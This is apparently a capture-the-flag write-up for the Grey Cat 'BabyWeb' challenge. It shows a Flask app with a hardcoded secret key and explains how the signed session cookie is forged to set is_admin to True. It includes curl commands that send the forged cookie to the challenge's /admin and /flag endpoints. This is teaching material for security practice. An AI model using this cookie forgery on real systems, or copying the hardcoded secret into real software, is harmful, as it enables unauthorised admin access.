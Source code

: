 ```yaml
---
title: BabyWeb Writeup
date: 2024-05-11
categories:
  - Writeups
tags:
  - Grey cat the flag
---
```


# 0x01

### Source code:

```python
import os
from flask import Flask, render_template, session

app = Flask(__name__)
app.secret_key = "baby-web"
FLAG = os.getenv("FLAG", r"grey{fake_flag}")


@app.route("/", methods=["GET"])
def index():
    # Set session if not found
    if "is_admin" not in session:
        session["is_admin"] = False
    return render_template("index.html")


@app.route("/admin")
def admin():
    # Check if the user is admin through cookies
    return render_template("admin.html", flag=FLAG, is_admin=session.get("is_admin"))

### Some other hidden code ###


if __name__ == "__main__":
    app.run(debug=True)
```

When we looked at the source code, we will find that this challenge has a secret_key of "baby-web" and we are able to get the flag by changing the cookie to get admin.

# 0x02
## Session

Session is to store information that is related to a user, across different requests(https://testdriven.io/blog/flask-sessions/)

In python, a secret key will be used to securely sign session cookies. This safety feature is to prevent tampering and unauthorised access to user's data

At here, we can see that the secret_key is "baby-web",
what we can do is to use a decoder tool to get the exact content of the cookie by using the secret_key

```json
{'is_admin': False}
```

By using the decoder we can see that the decoded content is '{'is_admin': False}'

What we need to do is to change it into '{'is_admin': True}', encoding it and use that as the cookie

```bash
curl -s "http://challs.nusgreyhats.org:33338/admin" -H "Cookie: session=eyJpc19hZG1pbiI6dHJ1ZX0.ZiZZgQ.1kYTfvAiwehvaSp4vdgOJ5clRM0"
```

# 0x03

After sending the request, from the response

```html
  <button hx-get="/flag" hx-swap="outerHTML" class="btn btn-secondary">Here is an even more secret button.</button>            
```

We still need to access "/flag" to get the flag

```bash
curl -s "http://challs.nusgreyhats.org:33338/flag" -H "Cookie: session=eyJpc19hZG1pbiI6dHJ1ZX0.ZiZZgQ.1kYTfvAiwehvaSp4vdgOJ5clRM0"
```

By using this, we are able to get the flag
